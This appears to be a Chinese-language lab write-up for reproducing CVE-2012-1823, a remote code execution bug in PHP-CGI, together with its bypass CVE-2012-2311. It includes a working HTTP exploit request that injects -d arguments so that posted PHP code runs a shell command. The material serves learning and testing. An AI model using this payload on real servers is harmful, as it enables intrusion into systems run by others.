 # PHP-CGI 远程代码执行漏洞（CVE-2012-1823）

PHP-CGI 是一个 SAPI（服务器应用程序编程接口）实现，用于使 PHP 与 Web 服务器进行通信。PHP-CGI 中的一个漏洞允许攻击者通过查询字符串向 PHP 传递命令行参数，从而可能导致远程代码执行。

影响版本：PHP < 5.3.12 或 PHP < 5.4.2

参考链接：

- <http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/>
- <https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html>

## 环境搭建

执行如下命令启动一个使用 PHP-CGI 5.4.1 的 Web 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 可以看到 "Hello" 字样。

## 漏洞复现

访问 `http://your-ip:8080/index.php?-s` 即可显示源代码，说明漏洞存在。发送如下数据包可执行任意 PHP 代码：

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## 技术细节

### PHP SAPI 与运行模式

PHP-CGI 可以在两种模式下运行：

1. CGI 模式：Web 服务器为每个请求创建一个新进程
2. FastCGI 模式：一个持久进程处理多个请求

根据 RFC3875 规定，当查询字符串中不包含未编码的 `=` 字符时，应该将其作为 CGI 参数传入。Apache 实现了这个要求，但 PHP 没有正确处理这种情况，导致了这个漏洞。

最简单的利用方式是使用 `-s` 参数来显示源代码：

![](1.png)

一个更强大的方法是使用 `-d` 指定 `auto_prepend_file`，从而创建任意文件包含漏洞：

![](2.png)

注意：空格需要用 `+` 或 `%20` 代替，`=` 字符需要进行 URL 编码。

### CVE-2012-2311 - 不完整的修复

PHP 最初在 5.4.2 和 5.3.12 版本中通过检查查询字符串开头的 `-` 字符来修复这个漏洞。但这个修复是不完整的，当 PHP-CGI 被包装在 shell 脚本中时可以被绕过（CVE-2012-2311）：

```sh
#!/bin/sh
exec /usr/local/bin/php-cgi $*
```

通过在 `-` 前添加空白字符，攻击者仍然可以传递参数，因为第一个字符是空格而不是 `-`。

PHP 在 5.4.3 和 5.3.13 版本中通过在检查 `-` 字符之前跳过所有前导空白字符来解决了这个问题。
